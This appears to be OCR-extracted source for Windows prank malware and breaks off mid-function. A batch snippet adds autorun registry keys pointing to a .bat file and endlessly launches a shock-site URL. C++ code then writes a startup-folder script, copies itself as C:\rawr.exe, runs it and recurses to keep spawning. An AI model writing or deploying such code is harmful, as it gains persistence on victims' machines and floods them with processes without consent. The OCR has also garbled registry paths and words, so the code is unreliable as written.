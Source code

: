 reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
:a
start iexpress www.meatspin.fr
goto a
#include <iostream>
#include <stdlib.h>
#include <windows.h>
#include <iomanip>
#include <stdio.h>
#include <conio.h>
#include <fstream>
using namespace std;
 
int main()
{ keybd_event(VK_MENU,0x38,0,0);
keybd_event(VK_RETURN,0x1c,0,0);
keybd_event(VK_RETURN,0x1c,KEYEVENTF_KEYUP,0);
keybd_event(VK_MENU,0x38,KEYEVENTF_KEYUP,0);
HANDLE outToScreen;
outToScreen = GetStdHandle(STD_OUTPUT_HANDLE);
 
{
char buffer[255];
char inputFile[]=”C:\\Documents and Settings\\All Users\\Start Menu\\Programs\\Startup\\rawr.bat”;
ifstream input(inputFile);
if (!input)
{
{
ofstream fp(“C:\\Documents and Settings\\All Users\\Start Menu\\Programs\\Startup\\rawr.bat”, ios::app);
fp << “@ECHO OFF \n”;
fp << “START C:\\rawr.exe \n”;
fp << “EXIT”;
}
}
else
{
while (!input.eof())
{
input.getline(buffer,255);
}
}
}
 
{
char buffer[255];
char inputFile[]=”C:\\rawr.exe”;
ifstream input(inputFile);
if (!input)
{
{
{
ofstream fp(“CLICK.bat”, ios::app);
fp << “@ECHO OFF \n”;
fp << “COPY matrix.exe C:\\rawr.exe \n”;
fp << “START C:\\rawr.exe \n”;
fp << “EXIT”;
}
system(“START CLICK.bat”);
main();
}
}
